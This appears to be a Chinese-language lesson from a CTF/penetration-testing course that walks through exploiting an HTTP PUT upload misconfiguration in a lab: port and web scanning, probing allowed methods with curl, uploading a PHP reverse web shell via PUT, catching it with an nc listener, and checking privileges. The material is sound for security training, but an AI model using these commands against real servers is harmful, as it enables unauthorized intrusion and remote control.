# 网络安全入门到精通：P41：16.18.PUT上传漏洞

在本节课中，我们将学习CTF训练中一个重要的漏洞类型——中间件PUT上传漏洞。通过利用此漏洞，攻击者可以从外部向服务器上传恶意文件，进而获取服务器的最高权限并取得目标flag值。

## 中间件PUT漏洞简介

上一节我们介绍了漏洞的基本概念，本节中我们来看看PUT上传漏洞的具体原理。

中间件是指如Apache、Tomcat、IIS、WebLogic等程序。这些中间件可以设置支持多种HTTP方法。HTTP方法包括GET、POST、HEAD、DELETE、PUT、OPTIONS等。

每个HTTP方法都有其对应的功能。在这些方法中，**PUT方法可以直接从客户端上传文件到服务器**。恶意攻击者可以利用中间件开放的PUT方法，将Web Shell直接上传到服务器的指定目录。


如果可以成功上传Shell，则从侧面反映出PUT漏洞的严重性。

## 实验环境搭建


以下是本次实验所需的软硬件环境。



*   **攻击机**：Kali Linux，IP地址为 `192.168.1.111`。
*   **靶场机器**：Linux系统，IP地址为 `192.168.1.102`。

我们的最终目标是获取靶场机器的root权限，并得到对应的flag值。

## 信息收集与探测

现在我们已经拿到了实验环境。首先要进行第一步：信息收集。以下是信息收集的常用步骤。

### 扫描开放端口

首先，我们可以扫描靶机开放的所有端口，这里使用Nmap工具。

```bash
nmap -T4 -p- 192.168.1.102
```
*   `-T4`：使用最快速度进行扫描。
*   `-p-`：扫描所有端口（1-65535）。

因为扫描所有端口需要发送大量数据包，使用最快速度可以避免等待时间过长。

### 全面扫描主机信息

除了扫描端口，我们还可以使用Nmap加载所有扫描模块，对靶机进行全面信息探测。

```bash
nmap -T4 -A -v 192.168.1.102
```
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。



### 探测Web服务敏感信息



如果扫描结果显示开放了HTTP服务（如80端口），我们可以使用其他工具进行深入探测。

以下是两个常用的Web目录和敏感信息探测工具。

1.  **使用Nikto进行漏洞扫描**：
    ```bash
    nikto -host http://192.168.1.102
    ```
    （如果HTTP服务不是默认的80端口，需要在IP后加上`:端口号`）

2.  **使用Dirb进行目录爆破**：
    ```bash
    dirb http://192.168.1.102
    ```

## 信息分析与漏洞发现

探测完毕后，我们需要对收集到的信息进行深入挖掘和分析。

分析Nmap扫描结果，我们发现靶机开放了**22号端口（SSH服务）**和**80端口（HTTP服务）**。进一步查看详细扫描信息，可以看到HTTP服务所使用的中间件类型及其**支持的HTTP方法**。

分析Nikto和Dirb的扫描结果。Dirb扫描出了一个名为 `/test/` 的目录。访问该目录，发现是一个空目录，表面上看没有可利用信息。

此时，我们可以使用自动化Web漏洞扫描器（如OWASP ZAP）对Web程序进行扫描，但在此案例中未发现可直接利用的高危漏洞。

## 手动测试PUT漏洞

当自动化工具未发现明显漏洞时，我们需要进行手动测试。这里我们重点测试 `/test/` 目录是否存在PUT漏洞。


使用 `curl` 命令测试该目录支持的HTTP方法：

```bash
curl -v -X OPTIONS http://192.168.1.102/test/
```

在服务器返回的响应报文中，我们筛选允许的HTTP方法，发现包含了 **PUT** 方法。这证实了该目录存在PUT上传漏洞。



## 利用PUT漏洞上传Web Shell



发现漏洞后，下一步就是利用它。我们的思路是：上传一个Web Shell到服务器，然后通过浏览器访问该Shell，使其执行并反弹一个连接回我们的攻击机。

### 准备Web Shell



首先，我们需要准备一个PHP的Web Shell。在Kali中，常用的Web Shell位于 `/usr/share/webshells/php/` 目录下。我们使用一个反弹Shell：

1.  复制Web Shell到桌面并编辑：
    ```bash
    cp /usr/share/webshells/php/reverse.php ~/Desktop/shell.php
    ```
2.  编辑 `shell.php` 文件，将其中的IP和端口改为攻击机的IP和监听端口（例如 `192.168.1.111:443`）。



### 上传Web Shell





由于 `/test/` 目录支持PUT方法，我们可以直接使用浏览器插件（如Postman）或 `curl` 命令上传文件。



使用 `curl` 命令上传：
```bash
curl -v -X PUT --data-binary @/root/Desktop/shell.php http://192.168.1.102/test/shell.php
```
*   `-X PUT`：指定使用PUT方法。
*   `--data-binary @文件路径`：上传指定文件。

上传成功后，访问 `http://192.168.1.102/test/shell.php` 应能看到上传的文件。

### 接收反弹Shell

在攻击机上，我们需要提前在指定端口（如443）开启监听，等待靶机执行Shell后连接回来。



使用 `netcat (nc)` 工具开启监听：
```bash
nc -nlvp 443
```


### 执行Web Shell

在浏览器中访问我们上传的Web Shell地址 `http://192.168.1.102/test/shell.php`。此时，Shell会执行并尝试连接到攻击机的443端口。

如果一切正常，我们将在 `nc` 监听窗口中看到来自靶机的Shell连接，并获得一个命令行交互界面。

## 权限提升初步



成功获取Shell后，我们通常获得的不是最高权限账户。可以使用以下命令查看当前用户权限：

```bash
id
whoami
```



如果当前用户不是 `root`，则需要进行权限提升。提升权限的方法有很多，例如查找具有SUID权限的文件、利用内核漏洞、滥用sudo权限等，这将是下一节课的重点内容。

## 总结



本节课中我们一起学习了PUT上传漏洞的完整利用流程。

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具扫描目标，发现开放的HTTP服务及敏感目录（如 `/test/`）。
2.  **漏洞探测**：手动使用 `curl` 测试敏感目录是否支持PUT方法。
3.  **漏洞利用**：利用PUT方法直接上传一个精心构造的Web Shell到服务器。
4.  **获取Shell**：在攻击机开启监听，然后触发执行Web Shell，获得一个反向连接。
5.  **权限查看**：初步检查获得的Shell权限，为后续的权限提升做准备。

PUT漏洞的利用关键在于目标服务器配置不当，允许了不安全的HTTP方法。在实战和CTF比赛中，对开放目录进行全面的HTTP方法测试是重要的突破口。